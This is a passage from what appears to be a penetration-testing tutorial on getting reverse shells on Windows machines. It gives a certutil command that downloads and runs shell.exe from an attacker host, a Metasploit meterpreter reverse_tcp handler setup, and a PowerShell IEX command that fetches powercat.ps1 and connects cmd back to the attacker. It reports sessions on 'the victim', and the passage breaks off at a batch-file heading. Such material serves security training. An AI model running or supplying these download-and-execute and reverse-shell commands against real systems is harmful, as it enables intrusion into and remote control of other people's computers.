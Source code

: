 ```
![](images/reverse_shell_windows_19.png)

Now, to dump configuration information or shell.exe file files with certutil. you can follow below syntax:

```
Syntax: [-f] [-urlcache] [-split] Path of executable file
```

```certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe```

![](images/reverse_shell_windows_20.png)

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```
As you can observe, we have a meterpreter session of the victim as shown below:

![](images/reverse_shell_windows_21.png)

## Powershell.exe

You can use PowerShell.exe to start a PowerShell session from the command line of another tool, such as Cmd.exe, or use it at the PowerShell command line to start a new session. Read more from the official website of Microsoft Windows from [here](https://docs.microsoft.com/en-us/powershell/scripting/components/console/powershell.exe-command-line-help?view=powershell-6).

### Launch Powercat attack via Powershell

Powercat is a PowerShell native backdoor listener and reverse shell also known as modifying version of netcat because it has integrated support for the generation of encoded payloads, which msfvenom would do and also has a client- to- client relay, a term for Powercat client that allows two separate listeners to be connected.

Download PowerShell in your local machine and then the powercat.ps1 transfer files with python HTTP server to obtain reverse shell of the target as shown below and start netcat listener.

```
git clone https://github.com/besimorhino/powercat.git
python -m SimpleHTTPServer 80
```

![](images/reverse_shell_windows_24.png)

Then execute the following command on the remote side to get netcat session.

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
```

![](images/reverse_shell_windows_25.png)

As you can observe, we have netcat session of the victim as shown below:

![](images/reverse_shell_windows_26.png)


## Batch File

```
